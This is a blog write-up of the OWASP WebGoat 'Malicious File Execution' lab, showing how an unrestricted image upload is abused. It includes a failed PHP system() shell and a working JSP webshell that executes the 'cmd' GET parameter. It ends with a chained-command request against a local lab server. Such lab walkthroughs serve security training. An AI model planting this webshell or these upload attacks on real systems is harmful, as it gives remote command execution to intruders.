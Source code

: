 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Malicious Execution"
subtitle: "Malicious File Execution"
date:   2017-01-31 08:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Malicious File Execution
Instructions:

- The form below allows you to upload an image which will be displayed on this page. Features like this are often found on web based discussion boards and social networking sites. This feature is vulnerable to Malicious File Execution.
- In order to pass this lesson, upload and run a malicious file. In order to prove that your file can execute, it should create another file named ```/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt```
- Once you have created this file, you will pass the lesson.

The challenge greets us with an upload page for us to upload an image with. Let's upload a test image and see what happens:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/test-upload.jpg">

Alright. It displays it back to us. How about when we send a file that isn't an image? Like this text file:

```
$cat test.txt
text
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/test-text-upload.jpg">

It looks like there is no input validation server side to make sure that we actually uploaded an image. This means that we can likely throw some malicious code up in a file that will be executed by the server. I tried a couple of naive methods that didn't work like a shell script:

```
$cat shell.sh
#!/bin/bash

mkdir -p /var/lib/tomcat6/webapps/WebGoat/mfe_target
echo 'executed' > touch /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt
```

And a php shell:

{% highlight php %}
<?php
system("mkdir -p /var/lib/tomcat6/webapps/WebGoat/mfe_target;touch /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt;echo 'executed' > /var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt")
?>
{% endhighlight %}

All of these were stored at the following location:

```
<p>Your current image:<img src="uploads/php_shell.php" vspace="0" hspace="0" border="0"></p>
```

But every time I traveled to them in a web browser, it just tried to download the file. Finally, I tried a ```.jsp``` file (Java Server Pages). Seeing as everything so far on the server was running Java, it made sense that Java might execute on upload. So I grabbed this shell payload from [NetSpi][jsp-shells]:

```
<%@ page import="java.util.*,java.io.*"%>
 <% 
 if (request.getParameter("cmd") != null) { 
 	out.println("Command: " + request.getParameter("cmd") + "<br />"); 
 	Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); 
 	OutputStream os = p.getOutputStream(); 
 	InputStream in = p.getInputStream(); 
 	DataInputStream dis = new DataInputStream(in); 
 	String disr = dis.readLine(); 
 	
 	while ( disr != null ) { 
 		out.println(disr); 
 		disr = dis.readLine();
 	}
 } 
 %>
```

Now when I navigated to the ```uploaded/cmd.jsp``` page, I wasn't displayed a download prompt!

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/successful-jsp-upload.jpg">

Nice so we have a webshell embedded in the server. Let's see what happens when we specify shell commands via the ```cmd``` GET request parameter:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/jsp-command-exec.jpg">

Alright! Now let's append our shell commands to accomplish our goal of inserting a file ```user.txt``` in the directory ```/var/lib/tomcat6/webapps/WebGoat/mfe_target/``` to the controllable ```cmd``` request parameter:

```
http://192.168.56.101/WebGoat/uploads/cmd.jsp?cmd=mkdir%20-p%20/var/lib/tomcat6/webapps/WebGoat/mfe_target;touch%20/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt;echo%20%27executed%27%20%3E%20/var/lib/tomcat6/webapps/WebGoat/mfe_target/user.txt
```

And when we send the request:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/jsp-file-insert.jpg">

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_17/malicious-file-exec-completed.jpg">

We hacked the server with our malicious JSP webshell!

### References

[1. Hacking with JSP Shells][jsp-shells]

[2. Unrestricted File Upload][owasp-ufu]

[jsp-shells]:https://blog.netspi.com/hacking-with-jsp-shells/
[owasp-ufu]:https://www.owasp.org/index.php/Unrestricted_File_Upload